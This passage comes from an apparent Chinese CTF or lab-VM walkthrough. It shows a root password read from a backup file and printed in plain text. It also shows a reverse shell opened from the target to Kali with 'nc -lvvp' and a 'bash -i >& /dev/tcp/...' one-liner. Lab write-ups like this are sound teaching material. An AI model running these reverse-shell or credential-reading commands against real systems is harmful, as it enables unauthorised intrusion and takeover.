 >  
 我们的用户目录下多了两个文件 


<img src="https://img-blog.csdnimg.cn/c2a36121804b43b4856a27c606dd7846.png" alt="在这里插入图片描述">

#### 6.成功读取root密码

```
cat var/backups/.old_pass.bak

```

>  
 得到root密码： 


```
Ts&amp;4&amp;YurgtRX(=~h

```

<img src="https://img-blog.csdnimg.cn/f6dcf98bfefb4c7ea18232c7adabd14f.png" alt="在这里插入图片描述">

#### 7.发现网页命令行无法执行su命令

>  
 切换到root用户 


```
su root

```

>  
 发现这里执行不了su 


<img src="https://img-blog.csdnimg.cn/3d1eb8c761284486a08921e76114cbeb.png" alt="在这里插入图片描述">

#### 8.反弹靶机shell到kali方式解决上述问题

>  
 反弹shell后 那那那，我干脆反弹一个shell到我的kali吧 Kali监听 


```
nc -lvvp 55555

```

<img src="https://img-blog.csdnimg.cn/89cae150962040bf864bc47edb9bcf25.png" alt="在这里插入图片描述">

>  
 靶机连接 


```
bash -i &gt;&amp; /dev/tcp/192.168.233.130/55555 0&gt;&amp;1

```

